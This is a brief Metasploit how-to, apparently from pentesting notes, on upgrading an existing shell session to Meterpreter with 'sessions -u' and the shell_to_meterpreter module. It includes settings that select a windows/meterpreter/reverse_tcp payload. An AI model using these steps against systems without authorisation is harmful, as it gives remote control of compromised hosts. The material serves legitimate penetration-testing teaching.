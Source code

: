 ## ~={green}Upgrading shells to Meterpreter=~
---
If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:

```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:

```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:

```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

If you want to upgrade your shell with fine control over what payload, use the `PAYLOAD_OVERRIDE`, `PLATFORM_OVERRIDE`, and on windows, `PSH_ARCH_OVERRIDE`. All 3 options are required to set an override on windows, and the first two options are required on other platforms, unless you are not using an override.

```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```